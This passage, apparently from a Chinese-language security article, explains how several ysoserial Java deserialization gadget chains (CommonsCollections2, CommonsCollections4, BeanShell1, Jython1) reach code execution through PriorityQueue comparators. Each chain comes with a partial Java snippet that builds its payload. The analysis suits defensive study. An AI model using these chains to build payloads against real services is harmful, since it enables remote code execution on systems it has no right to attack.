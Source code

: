 ### <a class="reference-link" name="CommonsCollections2%EF%BC%9A"></a>CommonsCollections2：

以PriorityQueue作为入口，TransformingComparator作为Comparator，调用TransformingComparator.compare，该方法可调用InvokerTransformer.transform从而调用Method.invoke。

```
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2,new TransformingComparator(transformer));
queue.add(1);
queue.add(1);
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = 1;
```

### <a class="reference-link" name="CommonsCollections4%EF%BC%9A"></a>CommonsCollections4：

和CommonsCollections2一样，都是以TransformingComparator作为Comparator只不过后面没有调用invoke，而是利用了TrAXFilter.TrAXFilter，该方法对TransformerImpl进行了实例化。

```
ChainedTransformer chain = new ChainedTransformer(new Transformer[] `{` constant, instantiate `}`);
PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, new TransformingComparator(chain));
queue.add(1);
queue.add(1);
```

### <a class="reference-link" name="BeanShell1%EF%BC%9A"></a>BeanShell1：

以PriorityQueue作为入口，其属性comparator被代理给XThis.Handler处理从而调用invoke。

```
Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class&lt;?&gt;[]`{`Comparator.class`}`, handler);

final PriorityQueue&lt;Object&gt; priorityQueue = new PriorityQueue&lt;Object&gt;(2, comparator);
Object[] queue = new Object[] `{`1,1`}`;
Reflections.setFieldValue(priorityQueue, "queue", queue);
Reflections.setFieldValue(priorityQueue, "size", 2);
```

### <a class="reference-link" name="Jython1%EF%BC%9A"></a>Jython1：

与BeanShell1类似，以PriorityQueue作为入口，其属性comparator被代理给PyFunction.Handler处理，从而调用invoke。

```
PyFunction handler = new PyFunction(new PyStringMap(), null, codeobj);
Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class&lt;?&gt;[]`{`Comparator.class`}`, handler);
PriorityQueue&lt;Object&gt; priorityQueue = new PriorityQueue&lt;Object&gt;(2, comparator);
Object[] queue = new Object[] `{`1,1`}`;
Reflections.setFieldValue(priorityQueue, "queue", queue);
Reflections.setFieldValue(priorityQueue, "size", 2);
```
